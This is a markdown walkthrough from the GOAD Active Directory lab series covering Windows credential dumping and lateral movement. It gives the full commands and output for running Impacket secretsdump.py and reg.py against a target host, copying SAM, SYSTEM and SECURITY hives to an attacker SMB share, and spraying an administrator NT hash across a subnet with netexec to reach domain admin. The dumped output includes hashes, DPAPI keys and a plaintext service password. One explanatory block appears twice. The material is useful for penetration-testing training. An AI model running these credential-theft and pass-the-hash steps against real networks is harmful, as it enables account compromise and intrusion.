







# GOAD Part 8 - Lateral Move (Pivoting)

**Pivoting** or **lateral movement** is a set of techniques used during a penetration test or Red Team campaign. It consists of using a machine controlled by the attacker as a bounce box, to gain further access to the network.

Before we try to do a lateral movement or pivoting, It is really important that we get all the secrets that the just owned machine has to offer us. Talking about Windows, we do have lots of secrets stored and they can also be found in different places.

We can start by using secretsdump.py from [Impacket](https://github.com/fortra/impacket) to retrieve these secrets.

Note: to be able to use [secretsdump.py](http://secretsdump.py/) we need to be have Administrators Rights. In this case have access to the Administrator account, or at least to be on hold of a user with Administrator Rights.

We can use Netexec to find out if our user is an Administrator in the target machine.

`netexec smb 10.4.10.22 -u 'jeor.mormont' -p '_L0ngCl@w_'`



We can see from the screenshot above that, user `Jeor.mormont` is an administrator in the machine 10.4.10.22, because Netexec output returned with a (Pwn3d!) in yellow.
It means that we are an administrator in this machine.

OK, now that we do know that we do have a valid administrator account with us, we can now use [secretsdump.py](http://secretsdump.py/) to retrieved the secrets of the target machine.

`secretsdump.py north/jeor.mormont:'_L0ngCl@w_'@10.4.10.22`

```
Impacket v0.12.0.dev1+20231130.165011.d370e63 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x928d80db0d4066816b5b48e573ce4297
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fc1040929894fbc7780e0ecd8cb188d4:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2024-01-13 18:18:04)
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405: (2024-01-13 18:19:31)
NORTH.SEVENKINGDOMS.LOCAL/vagrant:$DCC2$10240#vagrant#a14c16d521e2f5773307299239284ce2: (2024-01-07 14:12:01)
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5: (2024-01-10 19:41:25)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:91821b3fdb370707e8657076c21dc32f2b7ec253e077bfbfe378710581df6bd8
NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:94e639f67947bf57297d4ce85a49a35c
NORTH\CASTELBLACK$:des-cbc-md5:0d100889f2d60ed5
NORTH\CASTELBLACK$:plain_password_hex:7400230029002c00210066006f005800210026002b00780057002d0034005a003c002f0040002600540031002a0056007100410023004c004a00770063003d003300490063003c005b00320076005d00770038005700340057007400560032003b002f004e006e004c0041003e0038004d0037005e003f00720070002e00280068003c006a005f003000480042002a004d00350066003f0060006a002e003700370031002400360061004b005e00780050002a004800650033004c006f0059005a006600690045002d0059003c006e00680028005600360060003a002e0044004c003700670041005d00390034003a00
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:a8573f70897bd596742b3b9f2699ee81:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcb0cad11bd8307cb9bd7fe1487f5259d28f331eb
dpapi_userkey:0x04a93f6e8ba904e7cfd88af38a489b6c0106f132
[*] NL$KM 
 0000   10 A0 14 29 CD E3 43 58  24 37 2B 04 8F 67 CD F3   ...)..CX$7+..g..
 0010   8A 96 2F 6E DD A9 F4 C3  3E 4B CB 66 FA F6 5F 17   ../n....>K.f.._.
 0020   DB E3 87 8D 42 B4 BF AF  2A 9B 90 B8 4D 6C DD 8E   ....B...*...Ml..
 0030   61 13 95 EB C8 60 97 18  50 EA 2F 5F DF 27 1F 37   a....`..P./_.'.7
NL$KM:10a01429cde3435824372b048f67cdf38a962f6edda9f4c33e4bcb66faf65f17dbe3878d42b4bfaf2a9b90b84d6cdd8e611395ebc860971850ea2f5fdf271f37
[*] _SC_MSSQL$SQLEXPRESS 
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

Above we see [secretsdump.py](http://secretsdump.py/) output and we can see that it retrieved lots of secrets/credentials/hashes. Let’s talk about each one of them!

# **Security Account Manager (SAM) Database**

The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer.

The first think [secretsdump.py](http://secretsdump.py/) will be dumping is the SAM.

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fc1040929894fbc7780e0ecd8cb188d4:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
```

The SAM database is located in **`C:\Windows\System32\config\SAM`** and is mounted on registry at **`HKLM/SAM`**

To be able to decrypt the data we need the contains of the system file located at **`C:\Windows\System32\config\SYSTEM`** and it’s available on the registry at **`HKLM/SYSTEM`**.

SecretDump get the contains of **`HKLM/SAM`** and **`HKLM/SYSTEM`** and decrypt the contains.

### Manual Way

We can also retrieve the SAM and the SYSTEM manually with the following  2 ways.

1ST WAY

First we start an SMB Server on our local machine to save the results locally.

`smbserver.py -smb2support share .`

Then we can use [reg.py](http://reg.py/) from [Impacket](https://github.com/fortra/impacket/blob/master/examples/reg.py) to make the SAM & SYSTEM requests.

`reg.py north/jeor.mormont:'`*`L0ngCl@w`*`'@10.4.10.22 save -keyName 'HKLM\SAM' -o '\\10.4.10.1\share'`

`reg.py north/jeor.mormont:'`*`L0ngCl@w`*`'@10.4.10.22 save -keyName 'HKLM\SYSTEM' -o '\\10.4.10.1\share'`



We can see above that we were able to retrieve SAM & SYSTEM manually with this first option.

2ND WAY

If we do have already a valid windows remote sessions, via RDP or in any kind of powershell remote session for example, we can use the commands and retrieve the SAM & SYSTEM.

`reg save HKLM\SAM C:\SAM`

`reg save HKLM\SYSTEM C:\SYSTEM`



We can see above that we were able to gather the **SAM** and **SYSTEM** and save them in the windows root directory **`C:\`**.

Holding the SAM & SYSTEM with us we can use secretsdumps.py to decrypt **LM** and **NT** hashs  offline stored in the SAM database because The SAM database contains all the local accounts

## Decrypting LM & NT offline using secretsdump.py

`secretsdump.py -sam SAM -system SYSTEM LOCAL`

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fc1040929894fbc7780e0ecd8cb188d4:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
```

Please be aware of the following format of the hashes.

`<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:`

Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::

``` text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
user: Administrator
RID : 500
LM hash : aad3b435b51404eeaad3b435b51404ee (this hash value means empty)
NT hash : dbd13e1c4e338284ac4e9874f7de6ef4 (this is the important result here)
```

> LM/NT/NTLM/NetNTLMv1/NetNTLMv2 what’s the difference ?

There is a lot of confusion between the hash names and this could be very disturbing for people when they begin in the active directory exploitation.

- LM: old format turned off by default starting in Windows Vista/Server 2008
- NT (a.k.a NTLM): location SAM & NTDS : This one is use for Pass The Hash
- NTLMv1 (a.k.a NetNTLMv1): Used in challenge/response between client and server -> can be cracked or used to relay NTLM
- NTLMv2 (a.k.a NetNTLMv2): Same as NetNTLMv1 but improved and harder to crack -> can be cracked or used to relay NTLM
There is a lot of confusion between the hash names and this could be very disturbing for people when they begin in the active directory exploitation.

- LM: old format turned off by default starting in Windows Vista/Server 2008
- NT (a.k.a NTLM): location SAM & NTDS : This one is use for Pass The Hash
- NTLMv1 (a.k.a NetNTLMv1): Used in challenge/response between client and server -> can be cracked or used to relay NTLM
- NTLMv2 (a.k.a NetNTLMv2): Same as NetNTLMv1 but improved and harder to crack -> can be cracked or used to relay NTLM
We have the NT hash of the administrator account, we can either crack it using **John** or **Hashcat** to crack it.



### Let’s focus on Lateral movement now…

# **Password Reuse and Pass the Hash attack**

During a pentesting, if we completely compromised the first target on an Active Directory environment, we should always try to find out if the local accounts are the same on all other machines in the same network. Normally Password Reuse is everywhere in the network and one of the best ways to abuse password reuse is by using Pass The Hash attack in the whole network using [NetExec](https://www.netexec.wiki/smb-protocol/password-spraying).

`netexec smb 10.4.10.0/24 -u 'administrator' -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth`



Because we used the `--local-auth` flag, NetExec will try to the authentication on the machine as a local user account and not as a domain account. We can see here that besides Castelback. there’s no password reuse in the network. 

Now let’s do the Pass The Hash again, but this time we exclude the`--local-auth`. 

`netexec smb 10.4.10.0/24 -u 'administrator' -H 'dbd13e1c4e338284ac4e9874f7de6ef4'`



This time we can see that not only **Castelblack** was **(Pwn3d!)** but also **Winterfall! **The reason for that is because without the use of the flag`--local-auth`, the Pass The Hash attack will be using the user and password as a domain account and not as a local machine account.

The password reuse between **Castelblack** and **Winterfell** give us the domain administrator power on the north domain.

# **LSA (Local Security Authority) Secrets and Cached domain logon information**

When your computer is enrolled on a windows active directory you can logon with the domain credentials, but when the domain is unreachable you still can use your credentials even if the domain controler is unreachable. This is due to the cached domain logon information who keep the credentials to verify your identity.

This is stored on **`C:\Windows\System32\config\SECURITY`** (**HKLM\SECURITY**)

We will need the system file located at `C:\Windows\System32\config\SYSTEM` and is available on the registry at **`HKLM/SYSTEM`**

First we start an SMB Server on our local machine to save the results locally.

`smbserver.py -smb2support share .`

Then we can use [reg.py](http://reg.py/) from [Impacket](https://github.com/fortra/impacket/blob/master/examples/reg.py) to make the SAM & SYSTEM requests.

`reg.py north/jeor.mormont:'_`*`L0ngCl@w_`*`'@10.4.10.22 save -keyName 'HKLM\SYSTEM' -o '\\10.4.10.1\share'`

`reg.py north/jeor.mormont:'_`*`L0ngCl@w_`*`'@10.4.10.22 save -keyName 'HKLM\SECURITY' -o '\\10.4.10.1\share'`

Then we can extract the contain offline.

`secretsdump -security SECURITY.save -system SYSTEM.save LOCAL`

```
Impacket v0.12.0.dev1+20231130.165011.d370e63 - Copyright 2023 Fortra

[*] Target system bootKey: 0x928d80db0d4066816b5b48e573ce4297
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2024-01-13 18:18:04)
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405: (2024-01-13 18:19:31)
NORTH.SEVENKINGDOMS.LOCAL/vagrant:$DCC2$10240#vagrant#a14c16d521e2f5773307299239284ce2: (2024-01-07 14:12:01)
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5: (2024-01-10 19:41:25)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:7400230029002c00210066006f005800210026002b00780057002d0034005a003c002f0040002600540031002a0056007100410023004c004a00770063003d003300490063003c005b00320076005d00770038005700340057007400560032003b002f004e006e004c0041003e0038004d0037005e003f00720070002e00280068003c006a005f003000480042002a004d00350066003f0060006a002e003700370031002400360061004b005e00780050002a004800650033004c006f0059005a006600690045002d0059003c006e00680028005600360060003a002e0044004c003700670041005d00390034003a00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:a8573f70897bd596742b3b9f2699ee81
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcb0cad11bd8307cb9bd7fe1487f5259d28f331eb
dpapi_userkey:0x04a93f6e8ba904e7cfd88af38a489b6c0106f132
[*] NL$KM 
 0000   10 A0 14 29 CD E3 43 58  24 37 2B 04 8F 67 CD F3   ...)..CX$7+..g..
 0010   8A 96 2F 6E DD A9 F4 C3  3E 4B CB 66 FA F6 5F 17   ../n....>K.f.._.
 0020   DB E3 87 8D 42 B4 BF AF  2A 9B 90 B8 4D 6C DD 8E   ....B...*...Ml..
 0030   61 13 95 EB C8 60 97 18  50 EA 2F 5F DF 27 1F 37   a....`..P./_.'.7
NL$KM:10a01429cde3435824372b048f67cdf38a962f6edda9f4c33e4bcb66faf65f17dbe3878d42b4bfaf2a9b90b84d6cdd8e611395ebc860971850ea2f5fdf271f37
[*] _SC_MSSQL$SQLEXPRESS 
(Unknown User):YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up...
```

If we do have already a valid windows remote sessions, via RDP or in any kind of powershell remote session for example, we can use the commands and retrieve the SAM & SYSTEM.

`reg save HKLM\SAM C:\SAM`

`reg save HKLM\SYSTEM C:\SYSTEM`



Moving on…

It is possible to see based on the [secretsdump.py](http://secretsdump.py/) decryption that we got several hashes here..

**Domain Cached credentials 2. **

 `NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405` this is the well known

This hash can NOT be used for Pass The Hash and must be cracked. That kind of hash is very strong and long to break, so unless the password is very weak it will take an eternity to crack. If Hashcat is used to crack this hash the we use the mode **2100.**

### Machine Account Hashes `$MACHINE.ACC`.

`$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:a8573f70897bd596742b3b9f2699ee81`


---

*Back to [GOAD Overview](../README.md)*
